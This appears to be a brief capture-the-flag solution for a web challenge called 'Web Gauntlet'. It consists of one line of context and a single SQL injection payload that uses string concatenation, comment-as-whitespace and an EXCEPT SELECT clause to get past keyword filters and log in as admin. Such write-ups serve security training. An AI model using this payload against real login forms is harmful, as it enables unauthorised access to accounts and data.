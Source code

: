 # Web Gauntlet

SQL injections to beat the filters, flag will appear on filter page

adm'||'in'/**/except/**/select'1','1'from/**/users/**/where'b'is/**/not'a
